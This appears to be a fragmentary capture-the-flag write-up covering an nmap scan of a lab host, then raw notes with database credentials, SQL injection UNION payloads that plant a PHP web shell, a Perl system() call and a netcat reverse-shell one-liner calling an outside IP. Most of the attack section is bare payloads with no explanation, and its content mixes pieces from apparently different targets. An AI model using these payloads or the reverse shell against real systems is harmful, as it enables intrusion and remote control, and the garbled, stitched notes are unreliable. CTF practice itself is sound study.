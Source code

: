 # #1 Introduction
<img width="689" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/8ab7415c-a4dc-4331-b63a-ca376955779b">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx debug.thm
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- debug.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)

$db_server="localhost";
$db_username="clicker_db_user";
$db_password="clicker_db_password";
$db_name="clicker";


1 UNION SELECT REPLACE(nickname, 'mateor', '<?php echo system($_GET[0]); ?>'), clicks, level FROM players

9999999999999999999 UNION SELECT '<?php phpinfo(); ?>', 2, 3 from players
999999999999999999
extension: php



sub new {
    system("sh script.sh --help");
}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.186 6667 >/tmp/f
<img width="746" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/605b42fd-af46-492f-a817-365110c0ad75">

